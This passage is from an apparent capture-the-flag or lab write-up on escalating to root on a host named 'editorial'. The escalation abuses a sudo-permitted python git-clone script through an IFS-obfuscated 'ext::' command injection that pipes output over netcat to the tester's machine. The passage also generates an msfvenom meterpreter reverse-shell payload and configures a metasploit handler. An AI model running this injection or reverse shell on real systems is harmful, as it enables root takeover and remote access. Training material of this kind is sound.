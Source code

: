 The tester used these credentials to access the host as the "prod" account. The "prod" was able to run the "clone_prod_change" python script as root.

```
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Sorry, try again.
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

The script used the python git module to clone a repository. This module has a vulnerability that allows remote code execution. The tester tested the vulnerability by using "Netcat" to send the output from the id command to the testers machine. 

```
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c id${IFS}|${IFS}nc${IFS}10.10.14.9${IFS}8080'

```

```
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.20] 43368
uid=0(root) gid=0(root) groups=0(root)
```

Once the tester established the vulnerability worked they generated a reverse shell payload using Msfvenom and set up a listener with metasploit.

```
┌──(kali㉿kali)-[~/Documents/editorial]]
└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=8080 -f elf -o reverse.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: reverse.elf

┌──(kali㉿kali)-[~/Documents/editorial]]
└─$ 
```


```
msf6 exploit(multi/handler) > options

Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.9       yes       The listen address (an interface may be specified)
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


```